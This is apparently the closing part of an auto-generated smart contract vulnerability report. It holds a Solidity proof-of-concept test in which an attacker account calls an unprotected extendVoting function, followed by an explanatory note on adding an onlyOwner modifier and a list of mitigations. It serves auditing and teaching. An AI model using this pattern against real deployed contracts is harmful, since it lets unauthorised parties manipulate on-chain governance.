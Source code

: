 ```solidity
        (string memory desc, uint voteCount) = vulnerable.proposals(0);
        require(keccak256(bytes(desc)) == keccak256(bytes(proposalDescription)), "Proposal description mismatch");
        require(voteCount == 0, "Unexpected vote count");

        // Attacker extends the voting period using extendVoting().
        uint extraTime = 3600; // 1 hour extension
        vm.prank(attacker);
        bool successExtendVoting = vulnerable.extendVoting(extraTime);
        require(successExtendVoting, "extendVoting call failed");

        // Validate that the voting end time was extended.
        // We assume that the initial votingEnd was close to block.timestamp + 1 days.
        uint newVotingEnd = vulnerable.votingEnd();
        require(newVotingEnd >= block.timestamp + 1 days, "Voting period not extended correctly");

        /*
            Educational Note:
            The vulnerability in the VulnerableContract arises from missing access control modifiers.
            All functions that should be limited to the contract owner (e.g., addProposal, extendVoting)
            and the sensitive setOwner function are exposed to any caller.
            
            To mitigate this, developers should implement a modifier like:
            
            modifier onlyOwner() {
                require(msg.sender == owner, "Caller is not the owner");
                _;
            }
            
            And then apply it to functions that need protection, e.g.,
            
            function setOwner(address _newOwner) public onlyOwner returns (bool) { ... }
            
            This prevents unauthorized accounts from manipulating the contract's state.
        */
    }
}
```

---

## Recommendations

For each identified vulnerability, consider implementing the following mitigations:

- **For Access Control**: Implement proper authorization checks and use the Ownable pattern.
- **For All Vulnerabilities**: Consider a professional audit before deploying to production.

*This report was generated automatically by the Smart Contract Vulnerability Analyzer.*
